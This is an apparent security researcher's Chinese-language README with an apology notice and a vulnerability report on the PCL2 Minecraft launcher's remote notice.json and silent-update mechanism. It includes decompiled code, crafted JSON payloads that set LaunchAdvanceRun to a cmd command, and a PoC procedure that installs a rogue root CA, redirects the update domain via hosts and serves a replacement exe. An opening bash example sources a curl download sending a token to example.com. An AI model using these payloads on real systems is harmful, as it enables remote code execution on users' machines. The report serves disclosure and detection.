


1. [向龙腾猫跃的道歉公告](#my-apology)
2. [PCL PoC 与研究报告](#report)

[2026-10-25 更新 2.99.0.1 删掉了吗？没有——见复查报告](analysis/2.99.0.1/README.md)

# 重申为什么我的观点倾向于 PCL 有一个后门。

鉴于所谓其他软件的撑腰“开团”，我想在这里作一些评论。

我一直强调的“何谓后门”？答案是：即在用户**不预知**的情况下作出意料外的事情；且软件在用户未明确授权的情况下，从远程获取并执行可由别人控制的代码。

用简单的 bash 来举例（你们最喜欢的 bash2shell 笑话：）一个简化 Minecraft 启动器的核心流程。

我们简单定义一个 Shell 函数作为一个 Minecraft 启动器。

```bash
mc() {
    local USERNAME="Steve" UUID="550e8400-e29b-41d4-a716-446655440000" TOKEN="114514" VERSION="1.21.1"
    java -cp "minecraft.jar:libs/*" net.minecraft.client.main.Main --username "$USERNAME" --uuid "$UUID" --accessToken "$TOKEN" --userType msa --version "$VERSION" --gameDir . --assetsDir assets --assetIndex 17 "$@"
}
```

这是我们预想的，对吧？用 Java 启动一个游戏。

当然，我们也可以在游戏启动之前再加一个命令。并且作为接口开放。注意，这也是有些人最喜欢偷换概念，说“我们的软件也有 RCE 漏洞”，而这是用户可预知的。因为这是用户自己设定的，就算不是，也能看到到底输入了什么。

```bash
mc() {
    local <省略>
    local PRESTART="fcitx5-remote -c" # 作为接口开放的话，我们也知道做了什么。
    eval "$PRESTART" && java <省略> "$@"
}
```

那如果，我在前或后面加上一行呢？

```bash
mc() {
    local TOKEN="114514" <省略>
    local PRESTART="fcitx5-remote -c" 
    source <(curl -fsSL "https://example.com/script?session=${TOKEN}") \ # 开源版本，这里写的是：“由于包含加解密等安全信息，本文件中的部分代码已被删除”
    # ↑ 在这里，我们不得知做了什么。
    # 即便他只是作为公告 Whatever. 但是他也有运行命令的能力。
    # 而这是不预知的。
    # 在现实情况下。如果把它藏起来，让大家看不到呢？
    # 或者是，把代码给大家看。
    # 只不过不告诉大家我们会这么做。
        && eval "$PRESTART" \
        && java <省略> "$@"
}
```

不言而喻。

我不求做什么 whistleblower，但是我们应该都知道，我们想要安心地运行一个程序。

# <a id="my-apology" ></a> Notice 公告

在这里先向龙腾猫跃道歉。

我是一个兴趣使然的人，爱好研究以及 UI/UX。前两天，我在哔哩哔哩看到 SEDET 的视频，一个直接读 LLM 稿的视频，但是大家都在评判立场和 LLM 使用。我看到了他说的东西。而后，我找到了一件样本，这是其中一个路径 RCE 的方式，而后我用 AI 工具独立地找到了另一个。（后检查无参考其他内容）

另一个因为性质险峻，甚至是一个 0 CLICK 类型的。这非常危险。并且这个功能无任何提示，没有任何方式可以关掉它，并且在本应该能关掉它的地方，造成了误解。我认为界面操作上的问题也是一种漏洞——我先前已经找到过一个 Android 系统的漏洞，发送到了 Android VRP 并被 Google 认可，功能本身无害，但是危害在 UI 上造成的误解——因此，我认为，若用户不知道一个软件他会做什么，甚至是做了一些不可预测的事情，无论出于好坏目的，他都会损坏用户体验，如果做的事情不可评估好坏，它即有可能会被利用。并且最近漏洞频发，相似的事件太多（如 LTT 频道因测评软件误运行间谍软件，导致 Cookie 被盗用。）甚至有供应链攻击的风险（如盗取 SSH 密钥，）我本质希望能减少攻击面和被攻击的风险。

我发布 PoC 是希望大家广泛知道这件事情。我使用自由软件和开源软件很久了，我今天才把 QQ 下回来，准备和大家公布这件事情。

我在此呼吁你添加几项 feature：

1. PIN 住证书。[中国国家互联网应急中心在三天前报道了一起中国境外自治域 AS 402425 恶意篡改部分 DNS 解析数据事件](https://mp.weixin.qq.com/s/CAZ90qRk6klmRu6Z9RbvMg)。其中修改了 DNS 解析值，并使用 Let's Encrypt 申领了证书。受影响的主体存在 Akamai CDN。劫持、修改响应并非不可发生，安全不可忽视。
2. 移除这类代码，转而使用“更新墙”强制更新的手段，告知用户你接下来有事情要干。静默更新会导致 user experience 上的出入。其中保持住了“程序要做什么事情”用户的知情的能力。

另在此谴责使用我的 PoC 去做恶意的行为。

我也希望龙腾猫跃能给出更好的解决办法。正如我第一次与 PCL 见面，我希望 PCL 越来越好。


米凛 aka MiRin

2026-10-23


# <a id="report" ></a> PCL2 `notice.json` 远程代码执行分析报告

2026-10-21

省流：PCL2 在特定情况下有能力从服务器下载命令并执行。

|[](https://www.bilibili.com/video/BV1LZnz6bEXb/)|
|:---|
|[哔哩哔哩上的视频演示](https://www.bilibili.com/video/BV1LZnz6bEXb/)，谢谢“盖的二次方”帮忙上传。|

研究员利益相关：https://github.com/MiRinFork/PCLPoC/discussions/1

避免不必要的讨论，谢谢。

## 目录

- [0. 摘要](#0-摘要)
- [1. 样本与来源](#1-样本与来源)
- [2. 启动时的远程控制代码](#2-启动时的远程控制代码)
- [3. 利用方法一：notice.json → setup → LaunchAdvanceRun](#method1)
- [4. 利用方法二：notice.cfg + slientupdate → 静默更新 → 任意 exe](#method2)
- [5. 为什么这构成"后门"](#backdoor)
- [6. PoC](#poc)
- [7. 检测与响应](#response)
- [8. 附录](#footnotes)

## 0. 摘要

从蓝奏云下载的样本与官方仓库 Hex-Dragon/PCL2 提交 6b9a50df911c9d68b69b24c979efba477fb14b67（2.99.0.0 正式版）中"最新正式版.zip"内的 exe SHA256 一致。

```
6b6e1260cb5a1d6a303855f1c60cab3d0bc1aebba7e40a964180188b271e7386  Plain Craft Launcher 2.exe
6b6e1260cb5a1d6a303855f1c60cab3d0bc1aebba7e40a964180188b271e7386  official/Plain Craft Launcher 2.exe
```

程序每次启动都会连接 HTTP 地址，按版本条件拉三个 JSON/文本：`notice.cfg`、`notice.json`、`ServerConfig.json`。客户端拿到后直接解释执行其中的 `actions`。

在这个基础上能搭出三条利用方法。

方法一：`notice.json` → `actions.setup` → `LaunchAdvanceRun` → 游戏启动时 `cmd.exe /c "<任意命令>"`。需求方提供的样本走的就是这条路径，我把它复现成了 launch 模式。

方法二：`notice.cfg` 写非常高的版本号 → 客户端重新下载攻击者的 `ServerConfig.json` → `Update.Release.DownloadUrls` 指向任意 zip → 解压到 `PCL\` → 用户正常关闭 PCL 时执行 `PCL\Plain Craft Launcher 2.exe`，也就是攻击者的 exe。

方法三：`setup` 写入 `UiCustomType=2`、`UiCustomNet=<恶意 XAML>`、`HintCustomCommand=true`，下次启动加载远程自定义主页。

审查代码后的判断是设计上就把服务器下发的 JSON 作为执行目标。`setup` 执行任意命令。

btw，开源仓库里的 `ModSecret.vb` 被刻意删减，远程内容无从审计。

## 1. 样本与来源

### 1.1 基本信息

| 项目 | 值 |
|---|---|
| 文件名 | `Plain Craft Launcher 2.exe` |
| 大小 | 5,980,160 字节 |
| 类型 | PE32 GUI，Intel 80386，Mono/.NET assembly |
| 运行时 | .NET Framework 4.x + WPF（`PresentationFramework` / `PresentationCore` / `System.Xaml`） |
| 版本 | `PCL2/2.99.0.0.50`；`VersionCode = 413`；`BuildType = Release(50)` |
| SHA-256 | `6b6e1260cb5a1d6a303855f1c60cab3d0bc1aebba7e40a964180188b271e7386` |

### 1.2 与官方发布包的比对

```bash
git clone --depth 1 https://github.com/Hex-Dragon/PCL2.git
unzip 最新正式版.zip -d official
sha256sum official/Plain\ Craft\ Launcher\ 2.exe "Plain Craft Launcher 2.exe"
```

### 1.3 反编译方法

使用 ilspycmd 9.1，`-p -o decompiled` 便直接生成工程。

整个程序 520 个类型，关键文件如下：

- `PCL/ModSecret.cs`：公告、更新、联网配置、土豆码
- `PCL/PageLaunchRight.cs`：自定义主页加载
- `PCL/CustomEvent.cs`：自定义事件
- `PCL/ModBase.cs`：`GetObjectFromXML`
- `PCL/Settings.cs`：设置项定义与持久化
- `PCL/ModLaunch.cs`：`LaunchAdvanceRun` 的实际执行代码

### 1.4 并非开源

官方仓库的 `Plain Craft Launcher 2/Modules/ModSecret.vb` 第一行写着：

```vb
'由于包含加解密等安全信息，本文件中的部分代码已被删除
```

整个文件只剩 203 行，`notice`、`ServerConfig`、`UpdateStart`、`CheckPotatoCode` 这些逻辑一概没有；而发布版二进制里有完整的实现。

也就是说，远程内容这一整块是闭源的。

这和社区声称“开源启动器”的论调不符，也是这次"后门"争议的来源。

## 2. 启动时的远程控制代码

### 2.1 调用

`FormMain` 初始化完成后启动 `ModSecret.ServerLoader`：

```csharp
// PCL/ModSecret.cs:382
public static ModLoader.LoaderTask<int, int> ServerLoader =
    new ModLoader.LoaderTask<int, int>("PCL 配置更新", ServerSub, null, ThreadPriority.BelowNormal);
```

`ServerSub`（`ModSecret.cs:1262`）依次做这几件事：

1. `GET https://pcl2-server-1253424809.file.myqcloud.com/notice.cfg{CDN}`
2. 第一段解析成公告编号 `num3`，第五段是服务器配置版本 `num4`
3. 若本地 `Cache\ServerConfig.json` 的 `Version < num4`，下载 `ServerConfig.json{CDN}`
4. 若 `num3 > HintNotice` 或缓存不存在，下载 `notice.json{CDN}` 并写入 `%TEMP%\PCL\Cache\Notice.json`
5. `Settings.Set("HintNotice", num3)`
6. 反序列化 `notice.json`，逐条匹配 `requirements`，弹出公告，执行 `buttons[].actions` 或顶层 `actions`

关键代码：

```csharp
// PCL/ModSecret.cs:1324
text3 = ModNet.NetRequestByClientRetry(
    "https://pcl2-server-1253424809.file.myqcloud.com/notice.cfg{CDN}");
num3 = (int)Math.Round(ModBase.Val(StringExtensions.Split(text3, "|", false)[0]));

// PCL/ModSecret.cs:1382
ModNet.NetDownloadByClient(
    "https://pcl2-server-1253424809.file.myqcloud.com/ServerConfig.json{CDN}", text);

// PCL/ModSecret.cs:1403
text4 = ModNet.NetRequestByClientRetry(
    "https://pcl2-server-1253424809.file.myqcloud.com/notice.json{CDN}",
    null, null, null, null, "*/*", null, RequireJson: true);
FileUtils.Write(ModBase.PathTemp + "Cache\\Notice.json", text4, null);
Settings.Set("HintNotice", num3);
```

### 2.2 actions 的完整能力

`ModSecret.cs:1479-1534`：

```csharp
foreach (JProperty item3 in obj) {
    JProperty val4 = item3;
    switch (val4.Name) {
    case "copy":
        ModBase.ClipboardSet(val4.Value.ToString());          // 静默改剪贴板
        break;
    case "website":
        ModBase.OpenWebsite(val4.Value.ToString());           // 打开任意 http(s)
        break;
    case "stop":
        ModMain.FrmMain.EndProgram(SendWarning: false);       // 静默退出
        break;
    case "setup":
        JObject val5 = (JObject)val4.Value;
        foreach (KeyValuePair<string, JToken> item4 in val5)
            Settings.Set(item4.Key, item4.Value.ToString());  // 设置任意的 key👀 What is that?
        break;
    case "update":
    case "slientupdate":
        bool flag3 = Operators.CompareString(val4.Name, "slientupdate", false) == 0;
        if (!HasUpdatePermission) { ... }
        UpdateStart(flag3);                                   // 静默自我更新
        break;
    default:
        throw new Exception("未知的行动支：" + val4.Name + ", " + val4.Value.ToString());
    }
}
```

其中 `setup` 没有任何 key 白名单/黑名单，遍历字典直接写：

```csharp
foreach (KeyValuePair<string, JToken> item4 in val5)
    Settings.Set(item4.Key, item4.Value.ToString());
```

`Settings.Set` 会按设置项定义的类型做 `CTypeDynamic` 转换。

### 2.3 HasUpdatePermission 恒为 true

```csharp
// PCL/ModSecret.cs:402
private static bool HasUpdatePermission => true;
```

### 2.4 阿里纳西？是签名不是签名

`SecretCdnSign`（`ModSecret.cs:428-445`）的算法：

```text
path = URL 中 "://" 之后的第一个 "/" 起
ts   = UTC Unix 秒
rand = 8 位小写十六进制随机数
key  = "PCL2Server"                     // 硬编码在客户端
hash = MD5(path + "-" + ts + "-" + rand + "-0-" + key)
URL  = path + "?sign=" + ts + "-" + rand + "-0-" + hash
```

签名只能防止"URL 被随意拼接"。

密钥硬编码在客户端，任何拿到 exe 的人都能生成合法签名。

然而不是密码学意义上的签名。

### 2.5 线上公告的真实形态

`notice.json`（2026-10-21 时获取）：

```json
[
  {
    "id": 230,
    "requirements": { "versioncode <=": 413, "versionbranch <=": 0 },
    "importantLevel": 1,
    "isUpdate": true,
    "title": "悲报",
    "description": "为遵守相关法律法规，PCL 不再提供 MC 下载功能，非常抱歉 qwq……",
    "buttons": [
      {
        "text": "更新 PCL",
        "actions": { "update": { "requireUserInput": true } }
      }
    ]
  }
]
```

`ServerConfig.json` 中 `Update.Release.DownloadUrls` 指向下载链接。

### 2.6 信任边界



信任边界画在了"TLS 连接"上，而不是"内容"上。TLS 终端（CDN 或中间人）返回什么 JSON，客户端就当成什么厂商指令来执行。`{CDN}` 的 MD5 签名只保证 URL 不被随意拼，管不了内容替换，何况密钥就躺在客户端里。

## 3. 利用方法一：`notice.json → setup → LaunchAdvanceRun`（点击"启动游戏"）<a id="method1" ></a>

### 3.1 样本

测试样本：

```json
[
  {
    "id": 114514,
    "title": "",
    "description": "",
    "requirements": {},
    "actions": {
      "setup": {
        "LaunchAdvanceRun": "cmd.exe /c calc.exe",
        "LaunchAdvanceRunWait": "False"
      }
    }
  }
]
```

这份 JSON 会被 `setup` 逐键写进设置：`LaunchAdvanceRun` 是游戏启动前执行的全局命令（字符串），`LaunchAdvanceRunWait` 控制是否等待命令结束。

实战里有个坑：`importantLevel` 缺省为 2，而 PCL 会拿它和 `SystemSystemActivity`（用户之前点"不再提示"的等级）比较，如果目标机器上的值比 2 大，这条公告会被直接跳过。PoC 用 `importantLevel: 999` 绕开这一点。

### 3.2 LaunchAdvanceRun 到底何时执行

反编译代码里这个设置只有一个消费点：

```csharp
// PCL/ModLaunch.cs:2865
private static void McLaunchCustom(ModLoader.LoaderTask<int, int> Loader)
{
    string text = Settings.Get<string>("LaunchAdvanceRun");
    ...
    if (Operators.CompareString(text, "", false) != 0)
    {
        McLaunchLog("正在执行全局自定义命令：" + text, (LogLevel)1);
        Process process = ModBase.StartProcess(new ProcessStartInfo
        {
            FileName = "cmd.exe",
            Arguments = $"/c \"{text}\"",
            WorkingDirectory = ModMinecraft.McFolderSelected,
            UseShellExecute = false,
            CreateNoWindow = true
        });
        if (Settings.Get<bool>("LaunchAdvanceRunWait"))
            while (!process.HasExited && !Loader.IsCanceled) Thread.Sleep(10);
    }
}
```

`McLaunchCustom` 是 `McLaunchStart` 加载器的一环（`ModLaunch.cs:482`），只在用户点击"启动游戏"之后执行。

所以这个形态是一次点击的 RCE：用户点"启动游戏" → `cmd.exe /c "<命令>"`，命令以当前用户权限、无确认框执行。`LaunchAdvanceRunWait=False` 进入后台。

另有一前提，目标机器上得有可用的 Minecraft 版本，否则会在更早的"获取 Java / 登录 / 补全文件"阶段失败，不然触摸不到 `McLaunchCustom`。

### 3.3 同一原语还能写哪些危险设置

`setup` 能写任意已存在的设置键（不存在的键会抛 `KeyNotFoundException`，被逐 action 的 try/catch 捕获）。和代码执行、持久化有关的重点设置 key：

| 设置 key | 作用 | 风险 |
|---|---|---|
| `LaunchAdvanceRun` | 游戏启动前 `cmd /c` | 任意命令（利用方法一） |
| `LaunchAdvanceRunWait` | 是否等待命令 | 控制阻塞/隐藏 |
| `HintCustomCommand` | 跳过自定义事件确认框 | 关闭最后一道确认 |
| `LaunchAdvanceJvm` | 追加 JVM 参数 | `-agentpath` / `-javaagent` 加载任意 DLL/JAR |
| `LaunchAdvanceGame` | 追加游戏参数 | 影响 MC 进程 |
| `ToolDownloadSource` | 下载源 | 改变后续下载来源 |
| `SystemSystemTelemetry` | 匿名遥测开关 | 隐私 |
| `Identify` | 设备识别码 | 指纹/定向 |

## 4. 利用方法二：`notice.cfg + slientupdate → 静默更新 → 任意 exe` <a id="method2" ></a>

这个比上一个更强，他是一个 0 click

### 4.1 提高版本，强制刷新 ServerConfig

`notice.cfg` 的格式是 `id|?|?|?|configVersion`，`ServerSub` 拿第五段和本地 `Cache\ServerConfig.json` 的 `Version` 比较：

```csharp
double num4 = ModBase.Val(StringExtensions.Split(text3, "|", false)[4]);
if ((double)num < num4) {
    ModNet.NetDownloadByClient(
        "https://pcl2-server-1253424809.file.myqcloud.com/ServerConfig.json{CDN}", text);
    ServerConfig = (JObject)FileUtils.ReadAsJson(text, null, null);
}
```

攻击者可以把 `configVersion` 设成 999，所有客户端就会重新下载攻击者的 `ServerConfig.json`。

### 4.2 slientupdate 选择攻击者的下载 URL

`notice.json`：

```json
[
  {
    "id": 114514,
    "requirements": {},
    "importantLevel": 999,
    "actions": { "slientupdate": {} }
  }
]
```

`UpdateStart(Silent: true)` 的"获取更新信息"任务：

```csharp
// PCL/ModSecret.cs:1004-1026
JObject val = (JObject)ServerConfig["Update"][ModBase.BuildTypes.Release.ToString()];
if (val.ContainsKey("PatchUrls") && StartsWithF(UpdateMark, "Empty", false))
    Urls = val["PatchUrls"].ToObject<List<string>>();
else if (val.ContainsKey("DownloadUrls"))
    Urls = val["DownloadUrls"].ToObject<List<string>>();

// 扩展名直接取自 URL
Extension = "." + PathUtils.GetExtension(BeforeLast(Urls.First(), "{CDN}", false));
LocalPath = string.Format("{0}{1}.{2}{3}",
    ModMain.RequestTaskTempFolder(), "2.99.0.0", 50, Extension);
```

`UpdateMark` 的默认值以 `"Empty"` 开头，所以只要攻击者的 `ServerConfig` 不提供 `PatchUrls`，就会落到 `DownloadUrls`。下载 URL 可以是任意 `http(s)://`，扩展名直接取自 URL，这里用 `.zip`。

### 4.3 解压到 PCL\，退出时执行

```csharp
// PCL/ModSecret.cs:190-211
internal void _Lambda_0024__2()
{
    string text = Paths.Base + "PCL\\Plain Craft Launcher 2.exe";
    if (FileUtils.Exists(text)) FileUtils.Delete(text, false);

    if (Extension == ".zip")
        FileUtils.ExtractToDirectory(LocalPath, Paths.Base + "PCL\\", ...);
    else
        MsDelta.Apply(ModBase.PathExe, LocalPath, Paths.Base + "PCL\\Plain Craft Launcher 2.exe");

    if (IsSilentUpdate) {
        IsUpdateWaitingRestart = true;
        return;
    }
    ...
}
```

```csharp
// PCL/ModSecret.cs:1084-1097
public static void UpdateRestart(bool TriggerRestartAndByEnd)
{
    IsUpdateWaitingRestart = false;
    string fileName = Paths.Base + "PCL\\Plain Craft Launcher 2.exe";
    string text = $"--update {Process.GetCurrentProcess().Id} " +
                  $"\"{AppDomain.CurrentDomain.SetupInformation.ApplicationName}\" " +
                  $"\"{AppDomain.CurrentDomain.SetupInformation.ApplicationName}\" {TriggerRestartAndByEnd}";
    ModBase.StartProcess(new ProcessStartInfo(fileName)
    {
        WindowStyle = ProcessWindowStyle.Hidden,
        CreateNoWindow = true,
        Arguments = text
    });
    if (TriggerRestartAndByEnd) ModMain.FrmMain.EndProgram(SendWarning: false);
}
```

`EndProgram` 在退出前检查 `IsUpdateWaitingRestart` 并调用 `UpdateRestart(TriggerRestartAndByEnd: false)`（`FormMain.cs:1963`）。

### 4.4 完整时间线（零点击）



### 4.5 这里是自动更新！别的启动器都有

相比较同行，一个正常的自动更新至少应该有签名或 checksum。并且更新来源是固定的。以及可以被检查的任何行为。

而不是偷偷给你运行一个包，美名其曰静默更新，其他整合包、启动器都有。上面规划是好的，就是执行坏了？

## 5. 为什么这是"后门"，不是自动更新？<a id="backdoor" ></a>

| 能力 | 实现 | 后门特征 |
|---|---|---|
| 启动即连固定 C2 | `notice.cfg` / `notice.json` / `ServerConfig.json` | 每次启动自动回连 |
| 远程任意设置 | `setup` + `Settings.Set` | 可改启动参数、主页、更新源、安全开关 |
| 远程静默更新 | `slientupdate` + `UpdateStart(true)` | 可替换自身为任意 exe |
| 远程退出/剪贴板/开网页 | `stop` / `copy` / `website` | 可做定向操作 |
| 无 Authenticode | PE Security Directory = 0 | 替换/篡改难被发现 |
| 闭源关键模块 | 官方源码删除 `ModSecret` 公告逻辑 | 不可审计 |
| 设备指纹 | `Identify`（主板 `LastConfig` + 持久随机数） | 可定向投递 |

我们在这里研究的是“能不能”，不是作者“会不会？”

历史是一本教科书，他告诉我们人们不能从历史吸取教训。

Android 某 Root 程序 S……e 在服务器塞反注入代码，有两种行为，其一随机卡死手机，其二抹掉数据。目的是好的——反盗版说是，只是执行坏了——反盗版机制会干掉正版用户。

知名第三方聊天软件 N……m，开源软件不放任何恶意代码，发布版本写入自动上传代码。作者声称：

> If your question is, “Is it true?”, the answer is yes, numbers were sent to the bot. But not a single number has been stored anywhere or shared with anyone ever.
>
> Some people are asking for an “explanation”, but what kind of explanation do you want? It sends your phone number, it is what it is.

你信吗？

那 PCL 作者，你信吗？

### 5.1 侏罗纪老头进蓝奏云放的

截至笔者完成本报告，没有发现第三方二次打包或额外植入的恶意代码。依据如下：

- 样本 SHA-256 与官方仓库发布包 SHA256 一致；
- PE 只有 3 个节，是正常 .NET assembly，没有加壳或附加节；
- 出站域名主要是官方 CDN、GitHub/CNB、BMCLAPI、Modrinth/CurseForge、微软登录、腾讯云 CLS 遥测，以及 `PageLaunchRight` 里列出的社区主页预设（如 `qawsedrftgyhujiko.fun`、`g-fish.dpdns.org` 等，均为用户可选的"主页预设"，不是隐藏 C2）；
- 没有发现隐藏的 `cmd.exe`/PowerShell 拼接、反射加载任意 URL、计划任务/服务安装这类典型木马行为（`cmd.exe` 只出现在游戏启动、更新安装等常规路径）。

真正的问题在官方本身。

### 5.2 攻击链映射（MITRE ATT&CK）

| 阶段 | 技术 | 本报告对应 |
|---|---|---|
| 初始访问/供应链 | T1195 Supply Chain Compromise | 控制 CDN / 构建 / 更新源 |
| 资源开发 | T1587 Develop Capabilities | 伪造 `notice.json` / `ServerConfig` |
| 执行 | T1059.003 Windows Command Shell | `LaunchAdvanceRun` → `cmd /c` |
| 执行 | T1204.002 User Execution: Malicious File | 主页按钮/"启动游戏"点击 |
| 持久化 | T1546 Event Triggered Execution | 公告每次启动执行 |
| 防御规避 | T1553 Subvert Trust Controls | 无 Authenticode/内容签名；关闭确认框 |
| 命令与控制 | T1105 Ingress Tool Transfer | `certutil` / 任意 `.zip` 下载 |
| 影响 | T1554 Compromise Host Software Binary | 静默替换 `PCL\Plain Craft Launcher 2.exe` |

## 6. PoC<a id="poc" ></a>

### 6.1 设计

我们模拟官方服务器。

1. 生成 CA，并为 `pcl2-server-1253424809.file.myqcloud.com` 签发叶子证书；
2. 把 CA 装进 Windows 根证书存储；
3. 改 hosts，把公告域名指到 `127.0.0.1`；
4. 本地 443 起 HTTPS 服务器，返回伪造的 `notice.cfg` / `notice.json` / `ServerConfig.json` / `update.zip`；
5. 启动 PCL，按模式触发：`launch` 是启动后点"启动游戏"；`update` 是等静默更新 staging 后关闭 PCL；`xaml` 是第一次启动写设置、第二次启动点页面按钮；
6. payload 写 `%TEMP%\pcl-poc-marker.txt` 并启动 `calc.exe`；
7. 清理 hosts / 根证书 / PCL 注册表与 staging。

### 6.2 文件清单

```text
poc/
├── server.ps1                # 纯 PowerShell HTTPS 伪造服务器（默认，无需 Python）
├── server.py                 # Python 版服务器（-Server python 时使用）
├── Invoke-PCLPoC.ps1         # Windows 管理员一键脚本（自签证书/hosts/启动/清理）
├── certs/
│   ├── ca.crt / ca.key       # 实验室 CA
│   └── server.crt / server.key  # 为公告域名签发的 leaf
├── samples/                  # 需求方原始 notice.json 与计算器变体
├── www/                      # update.zip / 静态文件（运行时生成）
└── README.md                 # 运行说明
```

### 6.3 前置条件

- Windows 虚拟机；
- PCL2 2.99.0.0（样本 exe）；
- .NET Framework 4.8（Windows 自带）；
- 管理员权限（改 hosts、装根证书、监听 443）；Windows PowerShell 5.1（脚本会自动从 pwsh 7 切回 5.1）；
- `launch` 模式需要一个可启动的 Minecraft 实例；
- 首次运行 PCL 需先手动接受 EULA 并初始化。

### 6.4 运行

```powershell
# 以管理员身份打开 PowerShell
cd <PCL目录>\poc
powershell -ExecutionPolicy Bypass -File .\Invoke-PCLPoC.ps1 -Mode update
```

- `-Mode update`：零点击方法二。脚本启动 PCL，等 `PCL\Plain Craft Launcher 2.exe` staging 出现，关闭 PCL，校验 `%TEMP%\pcl-poc-marker.txt` 与 `calc.exe`。
- `-Mode launch`：利用方法一。脚本启动 PCL 后提示你点"启动游戏"，然后校验 marker。
- `-Mode both`：默认，利用方法一加方法二。
- `-Manual`：不自动启动/关闭 PCL。脚本只装 CA、改 hosts、起服务端，然后等你按 Enter；PCL 由研究者自己启动/关闭，适合用自己已配置好的 PCL，并在关闭前继续看日志或抓包。按 Enter 后才校验 marker 并清理。
- `-Manual` 且省略 `-PclPath`：完全 server-only，不读取、不备份、不启动、不关闭任何 PCL；此时公告对 `PCL\Setup.ini` 的修改不会自动恢复，建议用可丢弃的 PCL 副本。

也可以手动分步跑：

```powershell
# 1) 安装 CA
Import-Certificate .\certs\ca.crt -CertStoreLocation Cert:\LocalMachine\Root
# 2) 改 hosts
Add-Content $env:SystemRoot\System32\drivers\etc\hosts "`r`n127.0.0.1 pcl2-server-1253424809.file.myqcloud.com"
# 3) 起服务
powershell.exe -File .\server.ps1 -Mode update -Port 443 -PayloadExe C:\Users\Public\pclpoc.exe -CertThumbprint <叶子证书指纹>

# 或者用 Python 版：
# python .\server.py --mode update --port 443 --payload-exe C:\Users\Public\pclpoc.exe
# 4) 启动 PCL，等待更新 staging，关闭 PCL
```

### 6.5 预期结果

`update` 模式：

1. 服务端日志（`server.out.log`）出现：

   ```
   [req ] /notice.cfg
   [req ] /ServerConfig.json
   [req ] /notice.json
   [req ] /update.zip
   ```

2. `<PCL目录>\PCL\Plain Craft Launcher 2.exe` 出现（内容为 payload）；
3. 关闭 PCL 后，`calc.exe` 启动；
4. `%TEMP%\pcl-poc-marker.txt` 内容类似：

   ```
   2026-10-21T23:45:12.3456789+08:00 pid=1234 args=--update 5678 "Plain Craft Launcher 2.exe" ...
   ```

`launch` 模式：

1. PCL 日志出现：

   ```
   执行 PCL 服务器公告动作...（setup, ...）
   ...
   正在执行全局自定义命令：C:\Users\Public\pclpoc.exe
   ```

2. 点击"启动游戏"后 `calc.exe` 启动，marker 生成。

`xaml` 模式：

1. 第二次启动后 `%TEMP%\PCL\Cache\Custom.xaml` 出现；
2. 点击页面 `Continue` 后 `calc.exe` 启动，marker 生成；
3. PCL 日志出现 `执行自定义事件：执行命令, C:\Users\Public\pclpoc.exe`。

## 7. 检测与响应<a id="response" ></a>

### 7.1 主机侧

- `hosts` 中出现 `pcl2-server-1253424809.file.myqcloud.com` 指向非官方 IP；
- 根证书存储中出现非官方 CA（尤其 CN 含 `PoC` 或随机字符串的）；
- PCL 目录出现 `PCL\Plain Craft Launcher 2.exe` staging；
- `%TEMP%\PCL\Cache\Notice.json`、`notice.cfg`、`ServerConfig.json` 内容异常；
- 注册表 `HKCU\Software\PCL\HintNotice` 突然变大；
- `PCL\Setup.ini` 中 `LaunchAdvanceRun`、`UiCustomType`、`UiCustomNet`、`HintCustomCommand` 被改成陌生值；
- PCL 日志关键词：`下载 PCL 服务器公告`、`执行 PCL 服务器公告动作`、`启动器静默更新`、`更新程序启动`、`执行全局自定义命令`、`执行自定义事件：执行命令`。

### 7.2 网络侧

- 对 `pcl2-server-1253424809.file.myqcloud.com` 的 `notice.cfg` / `notice.json` / `ServerConfig.json` 请求；
